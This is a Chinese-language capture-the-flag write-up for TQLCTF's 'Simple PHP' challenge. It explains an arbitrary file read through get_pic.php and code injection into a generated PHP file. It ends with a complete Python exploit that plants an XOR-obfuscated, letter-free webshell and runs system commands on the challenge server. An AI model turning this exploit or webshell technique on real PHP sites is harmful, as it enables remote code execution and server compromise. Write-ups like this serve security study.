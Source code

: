 #  Simple PHP

进入网页，可以看到登录和注册两个界面，注册一个用户并登录进去。

![avatar](img/tqlctf_simple_php_0.png)
![avatar](img/tqlctf_simple_php_1.png)
![avatar](img/tqlctf_simple_php_2.png)

根据请求结果，php的版本为5.5，且查看网页源码可以找到一个有意思的地方，看样子这个get\_pic.php似乎可以读取其他文件。

![avatar](img/tqlctf_simple_php_3.png)

把后面参数的png替换成index.php试试，结果以base64的形式出现，解码之后得到的是php的文件内容，说明get\_pic.php可以读取任意文件的内容，利用这个就可以得到网站的源码。

![avatar](img/tqlctf_simple_php_4.png)
![avatar](img/tqlctf_simple_php_5.png)

可以发现，在注册用户之后，后端会对post的内容进行判断，再将template中的对应位置替换成post的内容，保存为一个新的php文件。

![avatar](img/tqlctf_simple_php_6.png)
![avatar](img/tqlctf_simple_php_7.png)

password被md5了，所以只剩下user、punctuation和website可以利用，其中user的长度限制得很短，punctuation很长但不能输入字母数字，且punctuation是在php代码以外的html部分，website同理。

要把punctuation包含的php代码里面，可以在user和punctuation之间用/\* \*/注释掉，其中user的内容可以设为“eval/\*”，正好6个字符且能通过正则，再把punctuation设为“\*/(“”));/\*”，引号中是shell的内容，这样这段代码就等同于“eval(“”)”。网上可以找到无字母数字的webshell，其原理是通过异或等方式输出字母。

![avatar](img/tqlctf_simple_php_8.png)

使用这种方法，就能写出一个绕过正则的可执行代码，其内容为“assert($\_POST(\_));”。

![avatar](img/tqlctf_simple_php_9.png)

成功注册并生成新文件后，post这个文件，其中表单内容为php代码，例如用system执行系统命令。

![avatar](img/tqlctf_simple_php_10.png)

可以发现ls执行成功了，并且能在根目录看到flag文件，最后用同样的方式cat这个文件就能得到flag内容。

EXP：
```python
import requests
import hashlib

base = 'http://120.77.216.55:45323'
user = 'eval/*'
pass_ = 'aaa'
punctuation = \
    "*/(\"" + \
    "\$_ = (':' ^ '[') . ('.' ^ ']') . ('.' ^ ']') . ('_' ^ ':') . ('_' ^ '-') . ('_' ^ '+');" + \
    "\$__ = '_' . ('+' ^ '{') . ('/' ^ '`') . ('(' ^ '{') . ('(' ^ '|');" + \
    "\$___ = \$\$__;" + \
    "\$_(\$___[_]);" + \
    "\"));/*"
website = 'aaa'
signup = {
    'user': user,
    'pass': pass_,
    'website': website,
    'punctuation': punctuation,
}
requests.post(base + '/index.php', data=signup)

cookies = {
    'user': user,
    'pass': 'zsf' + hashlib.md5(pass_.encode()).hexdigest()
}

user_php = base + '/sandbox/' + hashlib.md5(user.encode()).hexdigest() + '.php'
r = requests.post(user_php, cookies=cookies, data={'_': 'system(\'ls /\');'})
print(r.text)
```
